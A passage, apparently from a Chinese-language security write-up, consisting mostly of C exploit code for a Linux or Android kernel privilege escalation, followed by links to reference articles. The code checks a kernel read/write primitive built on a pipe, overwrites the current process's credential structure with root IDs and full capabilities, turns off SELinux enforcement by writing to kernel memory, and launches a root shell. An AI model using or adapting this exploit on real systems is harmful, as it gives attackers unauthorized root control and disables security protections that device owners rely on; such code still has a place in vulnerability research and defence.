    printf("[+] Verifying read/write primissive\n");


    pid_t currentPid = getpid();

    pid_t expectedPid = 0;

    expectedPid = kReadDword(m_pidAddress);

    printf("\t [*] currentPid: %d\n",currentPid);
    printf("\t [*] expectedPid: %d\n",expectedPid);

    if(currentPid != expectedPid ){
        printf("\t[-] r/w failed\n");
        exit(EXIT_FAILURE);
    }else{
        printf("\t [*] r/w successfully\n");
    }

}

void PatchCred(){
    printf("[+] Patching current task cred members \n");

    m_cred = (struct cred *)kReadQword(m_credAddress);

    if(!m_cred){
        printf("\t [-] Failed to read cred: %p",m_credAddress);
        exit(EXIT_FAILURE);
    }
    printf("\t cred: %p\n",m_cred);

    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, uid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, gid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, suid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, sgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, euid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, egid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsuid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, securebits)), SECUREBITS_DEFAULT);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_inheritable)), CAP_EMPTY_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_permitted)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_effective)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_bset)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_ambient)), CAP_EMPTY_SET);

}

void DisableSElinux(){
    printf("[+] whether selinux is enabled\n");

    ptrdiff_t nsProxy = kReadQword(m_nsproxyAddress);

    if(!nsProxy){
        printf("\t [-] Failed to read nsproxy: %p",m_nsproxyAddress);
        exit(EXIT_FAILURE);
    }
    ptrdiff_t kernelBase = nsProxy - SYMBOL_OFFSET_init_nsproxy;
    auto selinuxEnforcing = (void *) (kernelBase + SYMBOL_OFFSET_selinux_enforcing);
    printf("\t[*] nsproxy: 0x%lx\n", nsProxy);
    printf("\t[*] Kernel base: 0x%lx\n", kernelBase);
    printf("\t[*] selinux_enforcing: %p\n", selinuxEnforcing);
    int selinuxEnabled = kReadDword(selinuxEnforcing);

    if (!selinuxEnabled) {
        printf("\t[*] selinux enforcing is disabled\n");
        return;
    }

    printf("\t[*] selinux enforcing is enabled\n");

    //
    // Now patch selinux_enforcing
    //

    kWriteDword(selinuxEnforcing, 0x0);

    printf("\t[*] Disabled selinux enforcing\n");
}

int main(){
    
     leak_task_struct();
     PatchAddrLimit();
    
     printf("[+] main : Setting up pipe for kernel read\\write \n");
     if(pipe(m_kernel_rw_pipe_fd) == -1){
         printf("\t[-] Unable to create pipe \n");
         exit(EXIT_FAILURE);
     }else{
         printf("\t [*] pipe created successfully\n");
     }
     JudgeRWAnyWhere();
     PatchCred();
    DisableSElinux();
    printf("[+] spawn root shell\n");
    system("/bin/sh");
     


}
```


## 参考

https://www.4hou.com/posts/7O9G

https://www.4hou.com/posts/mGqA

https://bbs.pediy.com/thread-266198.htm

https://www.52pojie.cn/thread-1083552-1-1.html

